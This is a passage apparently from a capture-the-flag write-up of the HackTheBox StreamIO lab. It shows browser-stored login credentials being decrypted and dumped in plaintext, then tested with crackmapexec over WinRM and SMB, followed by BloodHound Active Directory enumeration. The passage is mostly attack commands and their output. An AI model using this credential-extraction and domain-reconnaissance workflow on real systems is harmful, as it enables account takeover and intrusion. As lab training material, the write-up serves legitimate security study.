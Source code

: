 ```bash
password check? True
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'098560d3a6f59f76cb8aad8b3bc7c43d84799b55297a47c53d58b74f41e5967e'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'e28a1fe8bcea476e94d3a722dd96'
       }
     }
   }
   OCTETSTRING b'51ba44cdd139e4d2b25f8d94075ce3aa4a3d516c2e37be634d5e50f6d2f47266'
 }
clearText b'b3610ee6e057c4341fc76bc84cc8f7cd51abfe641a3eec9d0808080808080808'
decrypting login/password pairs
https://slack.streamio.htb:b'admin',b'JDg0dd1s@d0p3cr3@t0r'
https://slack.streamio.htb:b'nikk37',b'n1kk1sd0p3t00:)'
https://slack.streamio.htb:b'yoshihide',b'paddpadd@12'
https://slack.streamio.htb:b'JDgodd',b'password@12'

crackmapexec winrm streamio.htb -u JDgodd -p 'password@12'

crackmapexec smb streamio.htb -u JDgodd -p JDg0dd1s@d0p3cr3@t0r
SMB         watch.streamIO.htb 445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:streamIO.htb) (signing:True) (SMBv1:False)
SMB         watch.streamIO.htb 445    DC               [+] streamIO.htb\JDgodd:JDg0dd1s@d0p3cr3@t0r
```

### Bloodhound
```bash
bloodhound-python -c all -d streamio.htb -dc streamio.htb -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' --zip -ns $IP
INFO: Found AD domain: streamio.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: streamio.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: streamio.htb
INFO: Found 8 users
INFO: Found 54 groups
INFO: Found 4 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.streamIO.htb
INFO: Done in 01M 13S
INFO: Compressing output into 20231201164155_bloodhound.zip

```
